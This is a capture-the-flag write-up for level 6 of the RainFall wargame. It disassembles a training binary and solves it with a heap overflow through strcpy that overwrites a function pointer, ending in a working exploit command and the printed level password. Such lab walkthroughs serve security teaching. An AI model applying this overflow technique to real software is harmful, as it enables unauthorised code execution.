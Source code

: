 # Level 6

Once logged in, you will see a binary `level6`.

```
$ ssh level6@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level6@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```

Let's run this and see what this does.

```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$
level6@RainFall:~$ ./level6 adsfasdfa
Nope
level6@RainFall:~$
```

Now, finally, it does something different from last levels.

By taking a look at the binary, there are three functions we want to look at.

```
gdb-peda$ info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
gdb-peda$
```

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>		; allocates 64 bytes
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>		; allocates 4 bytes
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468				; address of m
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx			; eax = edx -> malloc(4) = m;
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>		; strcpy of buf (= malloc(64)) to m
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax							; call buf
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```

```
gdb-peda$ disass m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1		; 0x80485d1:	 "Nope"
   0x08048475 <+13>:	call   0x8048360 <puts@plt>			; puts "Nope"
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```

```
gdb-peda$ disass n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0		; 0x80485b0:	 "/bin/cat /home/user/level7/.pass"
   0x08048461 <+13>:	call   0x8048370 <system@plt>		; system(0x80485b0) = system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
```

By analyzing the assembly (and decompiled C), we can tell the main function allocates memory on the heap with `malloc`, and calls function `m`. Our goal in this exploit is to call `n` instead.

Remember the function `strcpy()` has vulnerability which enables us to change a program's functionality through a buffer overflow.

Here we made the correct assumption that `malloc` stores values mostly next to one another plus some overhead. We found the correct memory location by writing a bit more to the copied argument than there was space available, thus overwriting the function pointer.

```
level6@RainFall:~$ ./level6 $(python -c "print 'B'*64")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*65")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*66")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*67")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*68")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*69")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*70")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*71")
Nope
level6@RainFall:~$ ./level6 $(python -c "print 'B'*72") // XXX: try this
Segmentation fault (core dumped)
```

Now we just add on our desired value to be called, and voilà our completed exploit.

```
level6@RainFall:~$ ./level6 $(python -c "print 'B'*72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

